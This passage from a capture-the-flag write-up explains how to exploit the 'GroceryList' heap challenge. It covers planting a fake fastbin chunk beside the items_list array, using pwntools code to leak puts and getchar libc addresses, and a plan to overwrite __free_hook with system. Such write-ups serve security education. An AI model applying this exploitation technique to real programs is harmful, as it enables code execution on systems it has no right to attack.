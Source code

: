 Now if we allocate 2 new items (small size), the second one will be at our fake chunk. Since our fake chunk is 3 bytes before the global `items_list` array, by editing it we will place fake addresses in the `items_list`.

We will use that to insert fake items address into the `items_list`, and thus have arbitrary read/write since we can print and edit items.

We cannot edit a [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) entry since the binary is `Full RELRO`, so the plan was to overwrite the pointer `__free_hook` with the address of `system`, which will make any call to `free(SOMETHING)` also calls `system(SOMETHING)`.

To do this we need to have `system` and `__free_hook` addresses. By leaking the addresses of two different `libc` functions we can know what `libc` version is being used and thus calculate the addresses of both `system` and `__free_hook`, I went for leaking the addresses of `puts` and `getchar`


```python
overwrite = "PAD"
overwrite += p64(pie_base + e.got['puts'])    # items[0]
overwrite += p64(pie_base + e.got['getchar'])  # items[1]
edit_item(8, overwrite)
r.sendline("1")
r.recvuntil("0. ")
leak = r.recvline(keepends=False)
puts = u64(leak.ljust(8, "\x00"))
r.recvuntil("1. ")
leak = r.recvline(keepends=False)
getchar = u64(leak.ljust(8, "\x00"))
```

Running it we get:

```shell
> $ python exploit.py
[*] '/MacOsHome/Desktop/CTFs/noxale-2018/grocery_list/GroceryList'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './GroceryList': pid 4407
[!] ASLR is disabled!
[4407]
[*] Heap leak : 0x2aaaab097c48
[*] PIE Base  : 0x555555554000
[*] LIBC base : 0x2aaaaacd3000
[*] items bss : 0x555555756040
[*] Fake Fast chunk: 0x55555575602d
[*] puts    : 0x2aaaaad42690
[*] getchar : 0x2aaaaad49160
```

Using [libc_search](https://libc.blukat.me/) we now know that the libc being used is 2.23-ubuntu, and that the offsets of `system` and `__free_hook` are `0x45390` and `0x3c67a8` respectively. 

Now we just need to place `__free_hook` in `items[0]` using the same trick as before, and edit it to write the address of `system`.

